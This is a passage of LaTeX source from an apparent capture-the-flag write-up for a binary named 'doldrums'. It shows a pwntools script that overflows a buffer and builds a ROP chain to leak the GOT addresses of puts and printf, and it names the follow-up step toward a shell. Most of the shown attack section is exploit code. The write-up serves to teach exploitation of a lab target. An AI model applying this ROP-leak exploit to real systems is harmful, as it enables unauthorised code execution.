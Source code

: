 \documentclass[english,a4paper,nols,noindent]{tufte-handout}
\begin{document}
\noindent gives the offset as the pattern \verb+aaae+, so we can use it afterwards to
build exploit.

Second step: leak the GOT-addresses of some functions to identify the version of libc.

\begin{verbatim}
from pwn import *
# Binary names
bin_fname = './doldrums'

# Remote
IP = '46.101.107.117'
PORT = 2113

# Create ELF objects
e = ELF(bin_fname)
x64 = e.bits != 32

cat = 0x0804888d
main = 0x080485e6 # main is not known (obfuscated)

print(p.recvuntil(b'Please press a key to continue!\n\n'))

# Send payload one to leak address
rop = ROP(bin_fname)
rop.raw(cyclic(cyclic_find('aaae', n=4), n=4))
rop.call(e.plt['puts'], [cat])
rop.call(e.plt['puts'], [e.got['puts']])
rop.call(e.plt['puts'], [cat])
rop.call(e.plt['puts'], [e.got['printf']])
rop.call(main)
p.sendline(rop.chain())

# skip the "poem"
tmp = p.recvuntil(b'Ancient_Mariner\n\n')

# Receive the GOT address of puts
tmp = p.recvuntil(b'/bin/cat ./heading\n')
leaked_puts = u32(p.recv(4))
log.info('the leaked address of puts  : %s' % hex(leaked_puts))
# Receive the GOT address of printf
tmp = p.recvuntil(b'/bin/cat ./heading\n')
leaked_printf = u32(p.recv(4))
log.info('the leaked address of printf: %s' % hex(leaked_printf))
\end{verbatim}

The rop chain first prints a defined string, then the address of \verb+puts+,
afterwards again the string and the address of \verb+printf+.  With the defined
string we can identify the addresses in the buffer cleanly.  At the end of the
exploit we call \verb+main+ again to get a chance to enter the second payload
that will give us the shell.  This prints out the addresses of the two
functions and we can use \url{https://libc.blukat.me/} to identify libc:

\begin{figure}
  \includegraphics[width=150mm]{ch36/identify_libc.png}
    \caption{Identifying the libc.}
\end{figure}
\end{document}

